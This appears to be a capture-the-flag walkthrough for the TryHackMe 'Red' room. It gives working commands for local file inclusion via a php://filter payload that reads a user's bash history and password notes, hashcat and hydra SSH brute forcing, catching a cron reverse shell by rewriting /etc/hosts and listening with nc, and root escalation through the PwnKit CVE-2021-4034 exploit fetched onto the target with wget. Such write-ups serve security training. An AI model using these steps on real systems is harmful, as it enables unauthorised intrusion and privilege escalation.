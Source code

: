 # Red

[redisl33t](https://tryhackme.com/room/redisl33t)

## Solution

* nmap scan: 22, 80

### Local file inclusion

```console
export IP=...
```

By running the following command we will see the bash history which includes
the `.reminder` file.

```console
curl --silent "http://$IP/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history" | base64 -d
```

To get the `.reminder` file on our machine and run hashcat on it to generate
the passwords and try all of them with hydra we can run

```console
curl --silent "http://$IP/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder" | base64 -d > .reminder
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
hydra -f -V -l blue -P passlist.txt ssh://$IP
```

Then we can login with the found password with ssh

```console
ssh blue@$IP
```

And finally show the flag with

```console
cat /home/blue/flag1
```

### Cron

If we inspect the processes that are running we can see a tcp connection on
port 9001 to redrules.thm. We can modify the IP of that address to our box.

```console
echo $HOST_IP redrules.thm >> /etc/hosts
```

We need to use append because the file `/etc/hosts` is writable in append mode,
we can see that with `lsattr /etc/hosts`.

Then on the local machine we can run

```console
nc -lvnp 9001
```

After we connect to `red` we can show the second flag with

```console
cat /home/red/flag2
```

### Root

In the home directory of red we can find a `.git` folder which contains a
pkexec executable. We can see that the version of the app is 0.105 which is
vulnerable to CVE-2021-4034 - Pkexec Local Privilege Escalation.

I have found a GitHub repo with a proof of concept:
https://github.com/ly4k/PwnKit However I had to change in the PwnKit.c file the
path to the pkexec executable from the .git folder.

I have saved the file with the changes in this repo

```diff
117c117
<     execve("/usr/bin/pkexec", args, env);
---
>     execve("/home/red/.git/pkexec", args, env);
```

After that you can run make and then upload the executable to the target
machine. Finally after running the executable you will switch user to root.

On the host

```console
make
python -m http.server
```

On the target

```console
wget http://$HOST_IP:8000/main
chmod +x main
./main
```
